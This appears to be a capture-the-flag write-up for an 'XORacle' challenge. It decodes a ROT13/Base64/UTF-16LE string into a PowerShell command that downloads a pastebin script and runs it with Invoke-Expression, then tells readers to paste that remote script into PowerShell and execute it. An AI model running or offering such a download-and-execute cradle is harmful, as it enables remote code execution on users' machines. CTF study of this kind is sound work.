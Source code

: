 Cryptoghrapy
title: XORacle

encoded script:
FDOhNULNojOeNTHNYDOSNUtNpNOlNTHNpjOmNTxNojOhNPNNXNOBNTHNqjNgNR8NLtOdNTHNLjO0NPNNGtOyNUDNYtOKNTHNLtOQNTjNnDOyNT4NqNNcNP4NENOiNUpNotOfNT8NLDOxNSZNqNOlNTxNotOaNPtNVtObNUDNqNOjNUZNBtNiNP8NpNOuNUZNqNOyNTVNnDOhNP4NLjOiNT0NYjOlNTRNqjNiNUVNDDN5NUbNqtOdNQHNqDNvNPxNQDNXNN

Upon examining the encrypted text provided, it appears to be encoded in a format resembling Base64. However, direct decoding using Base64 yields unreadable gibberish. This suggests that additional encryption layers might be in place. let's attempt to apply ROT13 (a simple letter substitution cipher) to the text. This step is often used to obscure text and can serve as a common first layer of encryption. Now, we can attempt to decode it using Base64. After that, it results in a string that appears to be encoded in UTF-16LE (Little Endian) format. To properly decode this UTF-16LE encoded string, we need to use a decoding tool or script that supports UTF-16LE decoding. We discovered that the encoded script corresponds to a PowerShell command.

Invoke-Expression (New-Object Net.WebClient).DownloadString("https://pastebin.com/raw/rA9zvj5u")

Given the presence of the command "Invoke-Expression," it indicates a strong likelihood that the script is intended for execution in a PowerShell environment. The decoded script is a PowerShell command that uses Invoke-Expression to execute the code retrieved from a URL. Specifically, it downloads and executes a script from the URL https://pastebin.com/raw/rA9zvj5u.Further analysis of the content at the provided URL is necessary to potential clues to get the flag. 

Next, Copy the provided URL (https://pastebin.com/raw/rA9zvj5u) and paste it into a web browser. This retrieves the contents of the script. 

Understand the Script: First, players should examine the provided PowerShell script. The script defines a function named xor that performs XOR encryption and decryption.

To retrieve the flag using this script, you would indeed follow these steps:

1. Copy the entire PowerShell script provided.
2. Open PowerShell on your system.
3. Paste the copied script into the PowerShell terminal and press Enter to execute it.
4. After execution, the $output2 variable will contain the decrypted output, which likely contains the flag or further instructions. 

In the provided PowerShell script, the `$output2` variable is assigned the result of calling the `xor` function with the encrypted string and specifying the decryption method as "decrypt". This means that `$output2` will contain the decrypted output after executing the script.

So, when you echo or print the value of `$output2` after executing the script in PowerShell, it will display the decrypted output, which likely contains the flag. The script is designed to perform decryption and assign the result to `$output2`, allowing you to easily access the decrypted information by echoing or printing the value of `$output2`.
                                            
